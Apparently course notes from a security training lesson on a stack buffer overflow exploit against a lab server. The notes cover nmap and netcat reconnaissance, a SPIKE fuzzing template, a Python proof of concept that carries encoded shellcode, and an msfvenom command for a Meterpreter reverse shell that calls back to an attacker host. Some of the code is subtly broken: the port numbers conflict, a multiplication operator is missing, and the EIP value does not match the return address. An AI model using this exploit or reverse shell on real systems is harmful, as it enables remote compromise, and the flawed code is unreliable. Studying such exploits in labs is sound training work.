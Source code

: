 # Module 2, Lesson 14 – Buffer Overflow Exploit

## 1. Identify the attack surface of the server

```bash
nmap 192.168.229.13 ( found port 313373/tcp open Elite)
nc 192.168.229.13 31337 ("Welcome to the character customizatino server! Type HELP for options")
HELP brings up a list of inputs
```

## 2. Fuzz the server for weaknesses in buffers

[Simple Fuzzer Script](../Mod2L13-Simple-Fuzzer.md#actual-fuzzer-script)

## 3. Develop a proof of concept exploit

```spike
s_readline();
s_string("A");
S_string_variable("NICK")
```

```python
#! /usr/bin/env python3

import socket

ip='192.168.229.13'
port=31337
buff = 'CLASS ' + 'A'*2001 + 'BBBB'*4 + 'C' * (5011 - 11 - 4)

print(buff)

buf =  b""
buf += b"\xb8\x7e\x7d\x29\xf2\xdb\xc4\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x59\x83\xeb\xfc\x31\x43\x10\x03\x43\x10\x9c"
buf += b"\x88\xd5\x1a\xef\x73\x26\xdb\x8f\x42\xf4\xbf\xc4\xf7"
buf += b"\xc8\xb4\x88\xfb\xa3\x99\x38\x8d\x51\x12\xf7\xc7\xbf"
buf += b"\x1c\x08\x5c\xcd\x76\xc7\xa3\x9e\xbb\x46\x58\xdd\xef"
buf += b"\xa8\x61\x2e\xe2\xa9\xa6\xf8\x88\x46\x7a\xac\xf9\xca"
buf += b"\x6b\xd9\xbc\xd6\x8a\x0d\xcb\x66\xf5\x28\x0c\x12\x49"
buf += b"\x32\x5d\x51\x09\x14\x0d\xee\xe2\x4c\xac\x23\x77\xa5"
buf += b"\xda\xff\x31\xbd\x17\x74\xc0\x17\x66\x75\xf2\x57\x48"
buf += b"\x46\xf8\xfb\x4a\x9f\x3b\xe4\x38\xeb\x3f\x99\x3a\x28"
buf += b"\x3d\x45\xce\xae\xe5\x0e\x68\x0a\x17\xc2\xef\xd9\x1b"
buf += b"\xaf\x64\x85\x3f\x2e\xa8\xbe\x44\xbb\x4f\x10\xcd\xff"
buf += b"\x6b\xb4\x95\xa4\x12\xed\x73\x0a\x2a\xed\xdc\xf3\x8e"
buf += b"\x66\xce\xe2\xaf\x87\x10\x0b\xf2\x1f\xdc\xc6\x0d\xdf"
buf += b"\x4a\x50\x7d\xed\xd5\xca\xe9\x5d\x9d\xd4\xee\xd4\x89"
buf += b"\xe6\x21\x5e\xd9\x18\xc2\x9e\xf3\xde\x96\xce\x6b\xf6"
buf += b"\x96\x85\x6b\xf7\x42\x33\x66\x6f\xad\x6b\x93\x71\x45"
buf += b"\x69\x5c\x57\x96\xe4\xba\x37\xc9\xa6\x12\xf8\xb9\x06"
buf += b"\xc3\x90\xd3\x89\x3c\x80\xdb\x40\x55\x2b\x34\x3c\x0d"
buf += b"\xc4\xad\x65\xc5\x75\x31\xb0\xa3\xb6\xb9\x30\x53\x78"
buf += b"\x4a\x31\x47\x6d\x2d\xb9\x97\x6e\xd8\xb9\xfd\x6a\x4a"
buf += b"\xee\x69\x71\xab\xd8\x35\x8a\x9e\x5b\x31\x74\x5f\x6d"
buf += b"\x49\x43\xf5\xd1\x25\xac\x19\xd1\xb5\xfa\x73\xd1\xdd"
buf += b"\x5a\x20\x82\xf8\xa4\xfd\xb7\x50\x31\xfe\xe1\x05\x92"
buf += b"\x96\x0f\x73\xd4\x38\xf0\x56\x66\x3e\x0e\x24\x41\xe7"
buf += b"\x66\xd6\xd1\x17\x76\xbc\xd1\x47\x1e\x4b\xfd\x68\xee"
buf += b"\xb4\xd4\x20\x66\x3e\xb9\x83\x17\x3f\x90\x42\x89\x40"
buf += b"\x17\x5f\x3a\x3a\x58\x60\xbb\xbb\x70\x05\xbc\xbb\x7c"
buf += b"\x3b\x81\x6d\x45\x49\xc4\xad\xf2\x42\x73\x93\x53\xc9"
buf += b"\x7b\x87\xa4\xd8"

buff = 'CLASS /.../' + 'A' * 2001 + '\xb1\xf9\x93\x77' + 'BBBB'*4 +'C' (5011 - 11 -4)

with socket.socket() as fuzz:
    fuzz.connect((ip,port))
    fuzz.send(bytes(buff,'latin-1'))


```

## 4. Further develop your exploit to a full shell

```msfvenom
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.229.30 lport=55555 -e x86/shikata_ga_nai -b '\x00' -f python
```

EIP = 7792dc9d

## NOTE: You can choose to do a BIND or REVERSE shell or try both
